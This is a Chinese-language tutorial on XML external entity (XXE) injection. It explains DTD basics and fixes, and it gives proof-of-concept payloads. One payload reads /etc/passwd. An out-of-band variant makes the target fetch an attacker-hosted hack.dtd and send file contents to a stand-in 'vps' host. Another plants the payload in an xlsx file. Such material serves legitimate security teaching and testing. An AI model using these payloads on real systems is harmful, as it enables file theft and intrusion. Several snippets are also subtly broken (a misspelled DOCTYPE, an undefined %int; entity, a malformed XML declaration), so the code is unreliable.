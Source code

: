 ```yaml
---
author: YOUZAI
title: XML 实体注入
date: 2023/04/25
categories:
 - 常见漏洞
tags:
 - WEB安全
---
```


## 漏洞原理

当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

## 漏洞危害

* 读取任意文件。
* 执行系统命令。
* 探测内网端口。
* 攻击内网网站。

## 修复建议

* 使用开发语言提供的禁用外部实体的方法。
* 过滤用户提交的XML数据。

## XML基础

XML 用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML 文档结构包括XML声明、DTD 文档类型定义（可选）、文档元素。

### XML文档的构建模块

所有的 XML 文档（以及 HTML 文档）均由以下简单的构建模块构成：
* 元素
  元素是 XML 以及 HTML 文档的主要构建模块，元素可包含文本、其他元素或者是空的。
* 属性
  属性可提供有关元素的额外信息。
* 实体
  实体是用来定义普通文本的变量。实体引用是对实体的引用。
* PCDATA
  PCDATA 的意思是被解析的字符数据（parsed character data）。
  PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。
* CDATA
  CDATA 的意思是字符数据（character data）。  
  CDATA 是不会被解析器解析的文本。

### DTD

DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块，DTD 可以在 XML 文档内声明，也可以外部引用。

### DTD 声明

内部声明：

```xml
<!DOCTYOE test any>
```

完整实例：

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

外部声明：

```xml
<!DOCTYPE test SYSTEM 'http://www.test.com/evil.dtd'>
```

完整实例：

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
```

`note.dtd`

```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

## 测试方法

* `PHP`、`JAVA`有回显

==POC==

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE any [<!ENTITY a SYSTEM "file:///etc/passwd">
]>
<root>
	<user>&a;</user>
	<pass>123456</pass>
</root>
```

* `PHP`，`JAVA`无回显

VPS 服务器，`hack.dtd`。

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> //php
<!ENTITY % file SYSTEM "file:///etc/passwd"> //java
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://vps/?p=%file;'>">
```

==POC==

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://vps/hack.dtd">
%remote;
%all;
%send;
]>
```

* 将 xlsx 文件后缀名修改成 zip 后，解压，将`[Content_Types].xml`文件里加入 POC

==POC==

```xml
<?xml version="1.0" encoding="utf-8">
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://vps/hack.dtd">
%remote;
%int;
%send;
]>
```